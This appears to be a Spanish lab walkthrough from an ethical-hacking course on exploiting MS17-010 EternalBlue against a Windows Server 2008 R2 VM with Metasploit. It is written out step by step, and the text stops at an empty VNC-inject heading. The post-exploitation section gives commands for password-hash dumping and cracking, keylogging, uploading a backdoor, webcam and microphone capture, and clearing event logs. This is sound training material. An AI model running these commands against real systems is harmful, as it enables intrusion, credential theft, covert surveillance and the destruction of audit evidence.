# 🖥️ Máquina: ws2008

> [!abstract] Ficha Técnica del Laboratorio
> **Sistema Operativo:** Windows Server 2008 R2  
> **Categoría:** Windows Server  
> **Técnicas trabajadas:** Enumeración SMB · Nmap NSE Scripts · Searchsploit · Metasploit Framework · MS17-010 EternalBlue · Meterpreter · Hashdump · VNC Injection  
> **Descripción:** Auditoría de seguridad y demostración de explotación de la vulnerabilidad MS17-010 (EternalBlue) en Windows Server 2008 R2 con Metasploit Framework, Meterpreter y elevación a SYSTEM.  
> 
> 🔗 **Navegación:** [[02 - MODULOS/Hacking Ético/03 - Máquinas Hackeables (VMs)|⬅️ Catálogo de Máquinas Hackeables]] &emsp;|&emsp; [[02 - MODULOS/04 - Hacking Ético|🧪 Hacking Ético]] &emsp;|&emsp; [[00 - INDICE|🏠 Inicio]]

---

## ⚙️ Configuración del Entorno de Red

Para ejecutar los comandos en tu laboratorio local (Red NAT):

* **`LHOST` (Atacante / Kali Linux):** Ej. `10.0.0.7`
* **`RHOST` (Víctima / ws2008):** Ej. `10.0.0.X`

> [!tip] Detección Previa de IP Víctima
> Si no conoces la IP asignada a la máquina ws2008 tras encenderla, ejecuta en Kali:
> ```bash
> sudo netdiscover -r 10.0.0.0/24
> ```

---

## 🛡️ Auditoría de Seguridad - Windows Server 2008 R2

---

## ⚙️ Configuración Inicial

Comenzamos configurando la máquina Kali Linux en la red de auditoría e iniciándola.

---

## 🔍 Identificación de la IP del Sistema Atacante (LHOST)

Una vez iniciada la máquina, anotamos la IP de Kali Linux ejecutando:

```bash
ip a
```



En la captura vemos que la IP de Kali Linux es 10.0.0.11. Esta será nuestra LHOST (Local Host).

> [!important] Nota Importante
> 📌 Terminología importante:
> LHOST (Local Host): IP de nuestro sistema atacante (Kali Linux)
> RHOST(S) (Remote Host): IP del sistema objetivo/víctima

---

## 🔎 Fase 1: Enumeración

> [!note]
> 💡 ¿Qué es la Enumeración?
> La enumeración es una fase crítica en la auditoría de un Windows Server donde se recopila información detallada sobre los recursos disponibles, servicios, configuraciones y usuarios del sistema. El objetivo principal es identificar los vectores de ataque potenciales y entender la estructura del servidor y su red asociada.

---

## 📊 Información que buscamos durante la enumeración:

* Cuentas de usuario y grupos activos
* Servicios y roles instalados (Active Directory, IIS, DNS, DHCP, etc.)
* Puertos abiertos y servicios en escucha
* Recursos compartidos (shares) en red
* Políticas de seguridad y configuración de contraseñas
* Software instalado y versiones
* Configuraciones de red (direcciones IP, rutas, dominios, etc.)

---

## 🌐 Descubrimiento de Hosts en la Red

Una vez tenemos nuestra IP identificada, procedemos a buscar otros equipos conectados a la red:

```bash
sudo netdiscover -r 10.0.0.0/24
```

* sudo → Ejecuta con privilegios de superusuario
* netdiscover → Herramienta para descubrir hosts en la red local
* -r 10.0.0.0/24 → Especifica el rango de red a escanear (toda la subred clase C)



En la imagen observamos otro equipo con IP 10.0.0.12 que será nuestro objetivo de auditoría. Las IPs .1, .2 y .3 son propias de la infraestructura VirtualBox y no requieren análisis.

> [!important] Nota Importante
> ⚠️ Nota sobre VirtualBox: En VirtualBox, los equipos de la red aparecen a partir de la IP .3 en adelante. Las primeras direcciones están reservadas para servicios de la infraestructura virtual.

La IP de la máquina a auditar (10.0.0.12) será nuestro RHOST (Remote Host).

---

## 🔍 Fase 2: Escaneo de Puertos

Sobre este RHOST realizaremos un escaneo de puertos para identificar los servicios disponibles y sus estados.

---

## 📡 Escaneo Rápido de Puertos Comunes

Lanzamos un escaneo inicial que verificará todos los puertos TCP más comunes:

```bash
nmap -sT -F 10.0.0.12 -Pn
```

* -sT → TCP Connect Scan (escaneo completo de conexión TCP)
* -F → Fast mode (escanea solo los 100 puertos más comunes)
* 10.0.0.12 → IP objetivo (RHOST)
* -Pn → Trata el host como activo, sin hacer ping previo (útil cuando ICMP está bloqueado)



La captura muestra los siguientes puertos abiertos:

* 135/tcp (msrpc): Microsoft RPC (Remote Procedure Call) - Esencial para la comunicación entre sistemas Windows
* 445/tcp (microsoft-ds): Microsoft Directory Services - Utilizado principalmente para el protocolo SMB (Server Message Block)

---

## 🔬 Escaneo Detallado de Servicios

Nos centraremos en estos puertos identificados. Realizaremos un reconocimiento profundo para:

* Identificar versiones de los servicios
* Determinar el sistema operativo
* Ejecutar scripts de detección de vulnerabilidades

Los parámetros -sV (detección de versiones), -O (detección de OS) y -sC (scripts por defecto) equivalen al parámetro combinado -A:

```bash
nmap -v -A -p135,445 10.0.0.12 -Pn
```

* -v → Verbose mode (salida detallada)
* -A → Aggressive scan (incluye -sV, -O, -sC y traceroute)
* -p135,445 → Especifica los puertos a escanear







Observando las capturas, confirmamos que se trata de un Windows Server 2008 R2 y que detrás de los puertos 135 y 445 está el servicio SMB (Server Message Block), utilizado para compartir archivos, impresoras y otros recursos en red.

---

## 🛡️ Fase 3: Búsqueda de Vulnerabilidades con Scripts NSE

El parámetro -sC de nmap lanza solo un conjunto básico de scripts. Ahora ejecutaremos todos los scripts específicos de SMB para detectar vulnerabilidades conocidas.

---

## 📜 Scripts NSE Disponibles

Nmap incluye cientos de scripts NSE (Nmap Scripting Engine). Para ver todos los disponibles:

```bash
ls /usr/share/nmap/scripts
```

Nos enfocaremos específicamente en los scripts de detección de vulnerabilidades SMB:

```bash
nmap --script "smb-vuln*" -p445 10.0.0.12 -Pn
```

* --script "smb-vuln*" → Ejecuta todos los scripts cuyo nombre comienza con "smb-vuln"
* El asterisco (*) es un comodín que coincide con cualquier texto después de "smb-vuln"



> [!important] Nota Importante
> 🚨 VULNERABILIDAD CRÍTICA DETECTADA
> El sistema es vulnerable a MS17-010 (EternalBlue)
> CVE: CVE-2017-0143
> Nivel de riesgo: ALTO/CRÍTICO
> Impacto: Ejecución remota de código sin autenticación

---

## 📚 ¿Qué es MS17-010 / EternalBlue?

MS17-010, conocida como EternalBlue, es una vulnerabilidad crítica en el protocolo SMBv1 de Microsoft que permite la ejecución remota de código. Fue descubierta por la NSA y posteriormente filtrada por el grupo Shadow Brokers en 2017. Esta vulnerabilidad fue utilizada en ataques masivos como WannaCry y NotPetya.

---

## 📖 Fase 4: Recopilación de Información sobre la Vulnerabilidad

Podemos obtener información adicional sobre vulnerabilidades de dos formas:

---

## 🌐 Método 1: Exploit Database (Online)

Accedemos a la base de datos de exploits:

https://www.exploit-db.com/

---

## 💻 Método 2: SearchSploit (Offline)

Desde Kali Linux, podemos buscar exploits localmente:

```bash
searchsploit ms17-010
```

SearchSploit es una herramienta de línea de comandos que permite buscar en la base de datos local de Exploit-DB. Es especialmente útil cuando no tenemos conexión a Internet o queremos búsquedas rápidas.



Los resultados muestran varios exploits disponibles para diferentes lenguajes y plataformas, incluyendo módulos específicos para Metasploit.

---

## ⚔️ Fase 5: Explotación con Metasploit Framework

---

## 🛠️ ¿Qué es Metasploit?

> [!note]
> Metasploit es un framework de código abierto muy popular en el ámbito de la ciberseguridad, especialmente utilizado para pruebas de penetración y auditorías de seguridad. Su principal función es facilitar la identificación, explotación y validación de vulnerabilidades en sistemas y aplicaciones.

* Escanear y enumerar redes y servicios
* Buscar y utilizar exploits para vulnerabilidades conocidas
* Crear payloads (cargas maliciosas) personalizados para obtener acceso a sistemas
* Realizar post-explotación (recolectar contraseñas, escalar privilegios, etc.)
* Automatizar ataques y generar informes profesionales

---

## 🚀 Iniciando Metasploit Console

Cargamos Metasploit ejecutando:

```bash
msfconsole
```





---

## 🔍 Búsqueda del Exploit

Buscamos módulos relacionados con la vulnerabilidad MS17-010:

```bash
search ms17-010
```



Aparecen varios módulos. Usaremos el exploit ms17_010_eternalblue específico para Windows Server 2008.

---

## 📦 Cargando el Exploit

Seleccionamos el exploit usando su número de índice:

```bash
use 0
```

O alternativamente por su nombre completo:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```



---

## ℹ️ Información del Exploit

Obtenemos información detallada sobre el exploit:

```bash
show info
```





* Space: Tamaño que necesita el exploit para cargar el payload
* Targets: Sistemas operativos compatibles
* Available payloads: Payloads que podemos utilizar
* References: CVEs, artículos y documentación relacionada



La viabilidad (reliability) del exploit es un indicador de qué tan probable es que funcione correctamente sin causar fallos en el sistema objetivo.

---

## 💣 Fase 6: Configuración del Payload Meterpreter

---

## 🎭 ¿Qué es Meterpreter?

> [!note]
> Meterpreter es un payload avanzado incluido en Metasploit, diseñado para ejecutarse en la máquina víctima una vez que se ha explotado una vulnerabilidad con éxito. Actúa como una consola interactiva que permite al atacante controlar el sistema comprometido de forma sigilosa y flexible.

* Ejecución en memoria: No escribe archivos en disco, evitando detección por antivirus
* Funcionalidades avanzadas: Navegación de sistema de archivos, captura de contraseñas, keylogging, capturas de pantalla
* Escalada de privilegios: Facilita la elevación de permisos y persistencia
* Movimiento lateral: Permite pivotar a otros sistemas en la red
* Extensible: Puede cargarse dinámicamente con scripts o módulos adicionales

Una vez cargado el exploit, Metasploit selecciona automáticamente el payload por defecto:



---

## ⚙️ Configuración de Opciones

Verificamos las opciones requeridas para el exploit y el payload:

```bash
show options
```



* RHOSTS: IP del sistema objetivo (víctima) - REQUERIDO
* LHOST: IP de nuestro sistema (atacante) - REQUERIDO
* LPORT: Puerto local donde escucharemos la conexión inversa
* Required: Yes → Parámetros obligatorios que debemos configurar

---

## 🎯 Configurando el Objetivo (RHOSTS)

Definimos la IP de la víctima:

```bash
set RHOSTS 10.0.0.12
```



> [!important] Nota Importante
> 💡 Verificación importante: Aunque LHOST suele configurarse automáticamente, es crucial verificar que esté correctamente establecido con nuestra IP de Kali (10.0.0.11). Si no lo está, configurarlo con: set LHOST 10.0.0.11

---

## ✅ Verificación Pre-Explotación

Antes de lanzar el ataque, verificamos que el objetivo es vulnerable:

```bash
check
```



El mensaje "The target is vulnerable" confirma que podemos proceder con la explotación.

---

## 💥 Fase 7: Ejecución del Exploit

Una vez configurado todo correctamente, lanzamos el ataque:

```bash
exploit
```

O alternativamente:

```bash
run
```



> [!important] Nota Importante
> ✅ ¡ATAQUE EXITOSO!
> Si vemos "Meterpreter session opened", la explotación fue exitosa y tenemos control del sistema.
> ⚠️ Nota: Si aparece "FAIL", es posible que necesitemos:
> Ejecutar el exploit nuevamente (puede necesitar varios intentos)
> Esperar unos segundos para que se establezca la conexión
> Verificar que no hay firewalls bloqueando la comunicación

---

## 🎮 Comandos Básicos de Meterpreter

Una vez dentro, podemos usar los comandos de Meterpreter. Para ver la lista completa:

```bash
help
```



* Core Commands: Comandos básicos del sistema
* File System Commands: Navegación y manipulación de archivos
* Networking Commands: Comandos de red
* System Commands: Información y control del sistema
* User Interface Commands: Captura de pantalla, control de teclado/ratón
* Webcam Commands: Control de cámaras web
* Audio Output Commands: Control de audio
* Privilege Escalation: Elevación de privilegios

---

## 🔧 Scripts y Módulos Adicionales

Meterpreter también dispone de scripts GET y módulos adicionales que amplían su funcionalidad.



Ejemplo de uso de script:

```bash
run getgui -h
```

Para ver los módulos disponibles:

```bash
load -l
```



Por ejemplo, podemos cargar el módulo de espionaje:

```bash
load espia
```

Después de cargar cualquier módulo, ejecutar help mostrará los nuevos comandos disponibles.

---

## 🕵️ Fase 8: Post-Explotación - Recopilación de Información

---

## 💻 Información del Sistema

Obtenemos detalles sobre el sistema comprometido:

```bash
sysinfo
```



* Nombre del equipo (Computer)
* Sistema operativo y arquitectura
* Dominio/Workgroup
* Usuario actual
* Idioma del sistema

---

## 🔐 Extracción de Hashes de Contraseñas

Volcamos los hashes de contraseñas almacenados en el sistema:

```bash
hashdump
```



Los hashes obtenidos pueden crackearse usando herramientas como:

* John the Ripper: john --format=NT hash.txt --wordlist=rockyou.txt
* Hashcat: hashcat -m 1000 hash.txt rockyou.txt
* Online: https://crackstation.net

---

## 🔄 Gestión de Procesos

```bash
getpid
```



```bash
ps
```



Para mejorar la persistencia y estabilidad, podemos migrar Meterpreter a otro proceso:

```bash
migrate <PID>
```

* explorer.exe: Proceso del explorador de Windows (muy estable)
* svchost.exe: Proceso de servicios del sistema
* winlogon.exe: Proceso de inicio de sesión (ideal para keylogging)

```bash
ps
migrate 401
```

Posteriormente, activamos la captura de teclado:

```bash
keyscan_start
```

Después de un tiempo (cuando un usuario escriba), volcamos las pulsaciones capturadas:

```bash
keyscan_dump
```

---

## 👤 Privilegios del Usuario

Verificamos con qué privilegios estamos ejecutando:

```bash
getuid
```



---

## ⬆️ Elevación de Privilegios

Si no tenemos privilegios de SYSTEM, intentamos escalarlos automáticamente:

```bash
getsystem
```

Este comando intenta varios métodos automáticamente:

* Named Pipe Impersonation (In Memory/Admin)
* Named Pipe Impersonation (Dropper/Admin)
* Token Duplication (In Memory/Admin)

---

## 📁 Fase 9: Navegación y Extracción de Archivos

---

## 🗂️ Navegación por el Sistema de Archivos

Meterpreter permite navegar por el sistema de archivos de forma similar a una shell:

```bash
pwd
```

```bash
ls
```

```bash
cd C:\Users\Administrador\Desktop
```

```bash
search -f *.txt
```



---

## ⬇️ Descarga de Archivos

Descargamos archivos del sistema comprometido a nuestra Kali:

```bash
download C:\Users\Administrador\Desktop\passwords.txt /root/
```



También podemos subir archivos desde Kali al sistema objetivo:

```bash
upload /root/backdoor.exe C:\Windows\Temp\
```

---

## 📸 Fase 10: Captura de Información Visual

---

## 🖼️ Captura de Pantalla

Tomamos capturas de pantalla del sistema comprometido:

```bash
screenshot
```



La captura se guardará automáticamente en nuestro directorio actual de Kali.

---

## 📹 Control de Webcam

Si el sistema tiene cámara web, podemos:

```bash
webcam_list
```



```bash
webcam_snap
```

```bash
webcam_stream
```

```bash
record_mic
```

---

## 💻 Fase 11: Shell del Sistema

---

## 🐚 Iniciar una Shell Interactiva

Podemos abrir una shell tradicional de Windows (cmd.exe) para ejecutar comandos nativos:

```bash
shell
```



* whoami → Ver usuario actual
* ipconfig → Configuración de red
* net user → Listar usuarios
* net localgroup administrators → Ver administradores
* systeminfo → Información detallada del sistema
* tasklist → Procesos en ejecución
* netstat -ano → Conexiones de red activas

> [!important] Nota Importante
> 💡 Salir de la shell: Para volver a Meterpreter desde la shell de Windows, escribe exit o presiona Ctrl+C

---

## 🧹 Fase 12: Limpieza de Rastros

---

## 🗑️ Eliminación de Evidencias

Una vez completadas las tareas de auditoría, es importante eliminar rastros para simular un escenario realista:

```bash
clearev
```



Este comando intenta limpiar los siguientes logs de Windows:

* Application Log: Registro de aplicaciones
* System Log: Registro del sistema
* Security Log: Registro de seguridad (auditoría)

> [!important] Nota Importante
> ⚠️ Advertencia Legal: La limpieza de logs es una técnica de post-explotación que solo debe usarse en entornos de auditoría autorizados y controlados. En un escenario real de pentesting profesional, estas acciones deben estar expresamente autorizadas por el cliente.

---

## 🚪 Cerrar la Sesión

Para salir de Meterpreter ordenadamente:

```bash
exit
```

Para cerrar Metasploit completamente:

```bash
exit -y
```

---

## 🎬 Payload Alternativo: VNC Inject

---

## 🖥️ Acceso Visual Remoto

